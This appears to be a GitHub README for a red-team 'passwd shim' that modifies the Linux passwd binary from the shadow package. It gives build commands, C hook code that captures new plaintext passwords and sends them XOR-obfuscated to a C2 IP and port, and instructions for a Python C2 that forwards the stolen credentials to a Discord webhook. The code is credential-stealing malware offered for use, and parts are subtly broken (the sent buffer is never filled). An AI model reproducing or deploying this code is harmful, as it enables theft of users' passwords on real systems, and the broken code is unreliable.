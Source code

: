 # Retriever Passwd Shim

#### What is this
This is a basic Linux binary shim on the passwd binary from the shadow package. This will grab new passwords while they are still plaintext in the binary and remotely send it back to a defined C2.

#### What does it work on? (Tested)

Ubuntu - 18.04, 20.04 <br />Centos - 8 <br />Debian - 11 <br />  

#### What is this intended for 
This is intended for Red Teaming in a Competition environment.


## Installation Instructions
#### Ubuntu - 18.04 / 20.04
1. `clone shadow git`
2. `run ./generate.sh`
3. `sudo chmod 4755 passwd`

#### Debian - 11
1. `clone shadow git`
2. `run ./generate.sh`
3. `sudo chmod 4755 passwd`

#### CentOS - 8
1. `clone shadow git`
2. `yum deplist passwd | awk '/provider:/ {print $2}' | sort -u | xargs yum -y install`
3. `yum install -y autoconf gettext-devel automake`
4. `dnf group install "Development Tools"`
5. `run ./autogen.sh --without-selinux`
6. `Add Hook (See Hooking passwd.c)`
7. `sudo make all`
6. `sudo chmod 4755 passwd`

#### Troubleshooting
1. Try "make clean" if you are not getting the changed code
2. Building from apt-source kinda sucks don't do it if you don't have to


## Hooking the passwd.c file

#### At the Top
Imports needed 

	#include <sys/socket.h>
	#include <arpa/inet.h> 
	#include <sys/ioctl.h>
	#include <netinet/in.h>
	#include <net/if.h>
	#include <unistd.h> 
	#include <string.h> 

Definitions

    #define PORT <port> 
    #define IP "<ip_address>" 


#### Adding the Hook
At line number ~266, right above the code that will salt the password, we add a line to run the function. 

    /* Hook to grab password */
	writetofile(pass);

    /*
	 * Encrypt the password, then wipe the cleartext password.
	 */
	salt = crypt_make_salt (NULL, NULL);

    

#### Adding the Function 

At line ~210 right above the new_password function is where I put this function although it just needs to be above where it is called. Make sure to replace the text "INT_HERE" in the 17th line with the actual interface being used by the computer.

	char* XORCipher(char* data, char* key, int dataLen, int keyLen) {
		char* output = (char*)malloc(sizeof(char) * dataLen);

		for (int i = 0; i < dataLen; ++i) {
			output[i] = data[i] ^ key[i % keyLen];
		}

		return output;
	}

	int writetofile (char *password){

		/* Get uid */
		uid_t uid = geteuid();
		struct passwd * pw = getpwuid(uid);
				
		/* Get IP Address */
		int fd;
		struct ifreq ifr;
		fd = socket(AF_INET, SOCK_DGRAM, 0);
			
		/* I want to get an IPv4 IP address */
		ifr.ifr_addr.sa_family = AF_INET;

		/* I want IP address attached to set interface */
		strncpy(ifr.ifr_name, INT_HERE, IFNAMSIZ-1);
		ioctl(fd, SIOCGIFADDR, &ifr);
		close(fd);
		
		/* display result */
		char buffer[256];
		char * ip;
		ip = inet_ntoa(((struct sockaddr_in *)&ifr.ifr_addr)->sin_addr);
		//SNPRINT
		
		/* Make Socket */
		int sock = 0, valread;
		struct sockaddr_in serv_addr;

		/* Sock creation Pt 2*/
		if ((sock = socket(AF_INET, SOCK_STREAM, 0)) < 0) {
			return -1;
		}

		/* Socket Options */
		serv_addr.sin_family = AF_INET;
		serv_addr.sin_port = htons(PORT);
			
		/* Timeout settings */
		struct timeval timeout;
		timeout.tv_sec = 3;
		timeout.tv_usec = 0;
		
		if (setsockopt (sock, SOL_SOCKET, SO_RCVTIMEO, &timeout, sizeof timeout) < 0)  {
			return -1;
		}
		if (setsockopt (sock, SOL_SOCKET, SO_SNDTIMEO, &timeout, sizeof timeout) < 0) {
			// pass
		}

		/* set IP and set buffer */
		if(inet_pton(AF_INET, IP, &serv_addr.sin_addr)<=0) {
			return -1;
		}
		if (connect(sock, (struct sockaddr *)&serv_addr, sizeof(serv_addr)) < 0) {
			return -1;
		}

		/* Encrypt Message */
		char* key  = "KEY_HERE";
		int key_length = strlen(key);
		int mes_length = strlen(buffer);
		char* xor_message = XORCipher(buffer, key, mes_length, key_length);

		/* Send Message */
		send(sock , xor_message , strlen(xor_message) , 0); 
		
		return 0;

	}
	
## Using the Python C2
### .env File

The python C2 expects a .env file to provide both the XOR key as well as a discord webhook to send the credentials to. The two values that the program searches for are "WEBHOOK" and "XOR_KEY". Set these values to their desired value and the program should run with those settings. The default for the XOR_KEY is "bingus" and the default webhook is empty. 

#### .env Values

- WEBHOOK : Set the Discord Webhook (Default : none)
- XOR_KEY : The key used to encrypt and decrypy (Default : bingus) 
- PORT    : Set the port the program listens on (Default : 8000)

### Running the C2

Make sure firewalls allow traffic into that port then run the python file using Python3.

	python3 recv_pass.py
